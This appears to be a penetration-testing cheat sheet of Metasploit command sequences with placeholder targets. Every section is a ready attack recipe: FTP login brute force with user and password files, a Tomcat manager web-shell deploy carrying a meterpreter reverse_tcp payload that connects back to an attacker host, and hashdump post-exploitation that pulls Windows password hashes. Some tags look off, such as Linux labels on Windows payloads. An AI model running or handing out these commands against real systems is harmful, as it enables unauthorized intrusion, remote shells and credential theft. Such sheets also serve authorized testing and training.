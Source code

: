 ## FTP Login - 64-bit
#plateform/linux #target/remote #cat/BRUTE_FORCE
```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <rhost>
set USER_FILE <users.txt>
set PASS_FILE <passwords.txt>
run
```

## Web Shell Upload - 32-bit
#plateform/linux #target/remote #cat/EXPLOIT
```
use exploit/multi/http/tomcat_mgr_deploy
set RHOSTS <rhost>
set RPORT <rport>
set USERNAME <user>
set PASSWORD <password>
set payload windows/meterpreter/reverse_tcp
set LHOST <lhost>
set LPORT <lport>
exploit
```

## Web Shell Upload - 64-bit
#plateform/linux #target/remote #cat/EXPLOIT
```
use exploit/multi/http/tomcat_mgr_deploy
set RHOSTS <rhost>
set RPORT <rport>
set USERNAME <user>
set PASSWORD <password>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <lhost>
set LPORT <lport>
exploit
```

## Post Exploitation - Hashdump (32-bit)
#plateform/linux #target/local #cat/PRIVESC
```
use post/windows/gather/hashdump
set SESSION <session_id>
run
```

## Post Exploitation - Hashdump (64-bit)
#plateform/linux #target/local #cat/PRIVESC
```
use post/windows/gather/hashdump
set SESSION <session_id>
run
```
